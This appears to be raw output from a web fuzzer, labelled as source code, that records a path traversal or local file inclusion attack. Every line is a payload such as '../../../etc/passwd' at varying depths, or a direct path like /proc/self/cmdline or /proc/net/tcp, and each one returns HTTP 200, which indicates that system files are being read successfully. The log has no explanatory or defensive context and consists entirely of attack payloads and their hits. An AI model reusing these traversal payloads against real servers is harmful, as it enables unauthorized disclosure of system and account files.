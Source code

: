 ```bash
000000256:   200        22 L     34 W       1007 Ch     "../../../../../../../../../../../../../../../../../../../etc/passwd"                                                                               
000000261:   200        22 L     34 W       1007 Ch     "../../../../../../../../../../../../../../etc/passwd"                                                                                              
000000263:   200        22 L     34 W       1007 Ch     "../../../../../../../../../../../../etc/passwd"                                                                                                    
000000255:   200        22 L     34 W       1007 Ch     "../../../../../../../../../../../../../../../../../../../../etc/passwd"                                                                            
000000258:   200        22 L     34 W       1007 Ch     "../../../../../../../../../../../../../../../../../etc/passwd"                                                                            
000000253:   200        22 L     34 W       1007 Ch     "../../../../../../../../../../../../../../../../../../../../../../etc/passwd"                                                             
000000252:   200        22 L     34 W       1007 Ch     "/etc/passwd"                                                                                                                               
000000254:   200        22 L     34 W       1007 Ch     "../../../../../../../../../../../../../../../../../../../../../etc/passwd"                                                                
000000249:   200        22 L     34 W       1007 Ch     "/../../../../../../../../../../etc/passwd"                                                                                                 
000000272:   200        22 L     34 W       1007 Ch     "../../../etc/passwd"                                                                                                                       
000000248:   200        22 L     34 W       1007 Ch     "/./././././././././././etc/passwd"                                                                                                         
000000270:   200        22 L     34 W       1007 Ch     "../../../../../etc/passwd"                                                                                                                 
000000306:   200        22 L     34 W       1007 Ch     "../../../../../../etc/passwd&=%3C%3C%3C%3C"                                                                                                
000000278:   200        22 L     34 W       1007 Ch     "etc/passwd"                                                                                                                                
000000271:   200        22 L     34 W       1007 Ch     "../../../../etc/passwd"                                                                                                                    
000000274:   200        22 L     34 W       1007 Ch     "../etc/passwd"                                                                                                                             
000000273:   200        22 L     34 W       1007 Ch     "../../etc/passwd"                                                                                                                          
000000394:   200        5 L      16 W       134 Ch      "/etc/resolv.conf"                                                                                                                          
000000492:   200        31 L     199 W      1185 Ch     "/proc/cpuinfo"                                                                                                                             
000000496:   200        27 L     154 W      3386 Ch     "/proc/mounts"                                                                                                                              
000000504:   200        58 L     144 W      1383 Ch     "/proc/self/status"                                                                                                                         
000000505:   200        4 L      33 W       266 Ch      "/proc/version"                                                                                                                             
000000495:   200        54 L     159 W      1500 Ch     "/proc/meminfo"                                                                                                                             
000000502:   200        3 L      10 W       102 Ch      "/proc/self/cmdline"                                                                                                                        
000000501:   200        20 L     74 W       566 Ch      "/proc/partitions"                                                                                                                          
000000499:   200        6 L      43 W       465 Ch      "/proc/net/route"                                                                                                                           
000000500:   200        16 L     227 W      2031 Ch     "/proc/net/tcp"                                                                                                                             
000000494:   200        4 L      15 W       106 Ch      "/proc/loadavg"   
000000498:   200        7 L      64 W       527 Ch      "/proc/net/dev"                                                                                                                            
000000497:   200        5 L      25 W       237 Ch      "/proc/net/arp"                                                                                                                            
```